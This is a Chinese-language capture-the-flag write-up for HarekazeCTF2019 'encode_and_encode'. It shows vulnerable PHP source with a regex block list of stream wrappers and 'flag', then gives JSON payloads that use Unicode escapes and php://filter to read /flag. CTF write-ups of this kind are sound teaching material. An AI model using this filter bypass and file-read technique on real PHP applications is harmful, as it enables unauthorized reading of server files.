


# [HarekazeCTF2019]encode_and_encode



## 知识点

- php伪协议
- unicode 编码 绕过 JSON过滤

json格式传输的数据会被转义的几种情况，例如\”会被转义成”,\会被转义成\，\n会被转义成换行，\u（四位十六进制字符）会被转义成unicode解码后对应的字符。

## 解题

```php
 <?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]); 
```

- `file_get_contents('php://input')`获取 post 的数据，`json_decode($body, true)` 用 json 格式解码 post 的数据，然后 `is_valid($body)` 对 post 数据检验。
- `is_valid($body)` 对 post 数据检验，导致无法传输 `$banword` 中的关键词，也就无法传输 `flag`，这里在 json 中，可以使用 Unicode 编码绕过，`flag` 就等于 `\u0066\u006c\u0061\u0067`
- 这里传入 `/\u0066\u006c\u0061\u0067` 后，由于 `flag` 文件中也包含 flag 关键字，所以返回 `not found` ，这也无法使用 `file://`
- `file_get_contents` 是可以触发 `php://filter` 的，所以考虑使用伪协议读取，对 `php` 的过滤使用 `Unicode` 绕过即可

payload：

```json
{"page":"php://filter/convert.base64-encode/resource=/flag"}
```

Unicode编码：

```json
{"page":"\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067"}
```



base64解码，获得flag